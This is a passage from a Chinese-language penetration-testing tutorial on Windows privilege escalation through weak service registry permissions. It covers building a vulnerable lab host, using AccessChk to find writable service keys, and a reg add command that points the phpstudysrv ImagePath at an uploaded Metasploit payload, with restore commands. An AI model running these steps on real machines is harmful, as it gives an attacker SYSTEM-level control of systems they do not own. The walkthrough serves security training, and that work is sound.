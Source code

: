 ![image-20241010093332543](https://image.201068.xyz/assets/38.后渗透/image-20241010093332543.png)

> 过几秒服务就掉了

如果没有权限，对于启动类型为“**自动**”的服务，就可以尝试通过**重新启动计算机**的方法来实现服务重启。

### 5.2.服务注册表权限脆弱

Windows 的注册表中存储了每个系统服务的条目，而注册表使用`ACL`来管理用户对其所拥有的访问权限。

如果**注册表的ACL配置错误**，使得一个**低权限用户对服务的注册表拥有写入权限**，此时可以通过修改注册表来更改服务配置。

例如，修改注册表中的 `ImagePath` 键，从而**变更服务启动时的二进制文件路径**。

#### 漏洞环境设计

在靶机执行，用来设置漏洞环境，实际环境无需这一步

访问如下注册表路径，

```python
HKLM\SYSTEM\CurrentControlSet\Services
```

右键选择**权限**，点击**添加**，输入 `Authenticated Users` 后点击确定

![image-20241010094346711](https://image.201068.xyz/assets/38.后渗透/image-20241010094346711.png)

给予**完全控制权限**后点击确认

![image-20241010094408961](https://image.201068.xyz/assets/38.后渗透/image-20241010094408961.png)

#### 漏洞复现

##### ① 枚举具有写入权限的服务

执行以下命令，通过`AccessChk`在目标主机中枚举“`Authenticated Users`”用户组具有写入权限的服务注册表

```python
accesschk.exe /accepteula -uvwqk "Authenticated Users" HKLM\SYSTEM\CurrentControlSet\Services
```

![image-20241010094502549](https://image.201068.xyz/assets/38.后渗透/image-20241010094502549.png)

##### ② 服务路径替换

“`Authenticated Users`”用户组对 `phpstudysrv` 服务的注册表拥有**完全控制权限**。

将该**服务注册表**中的 `ImagePath` 键指向**预先上传的攻击载荷**。

```python
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\phpstudysrv /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\phpstudy_pro\WWW\vul\rce\msf_8888.exe" /f


#恢复
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\phpstudysrv /v ImagePath /t REG_EXPAND_SZ /d "C:\phpstudy_pro\COM\phpStudyServer.exe -SCM" /f

#或
sc config phpstudysrv binpath= "C:\phpstudy_pro\COM\phpStudyServer.exe -SCM"
```
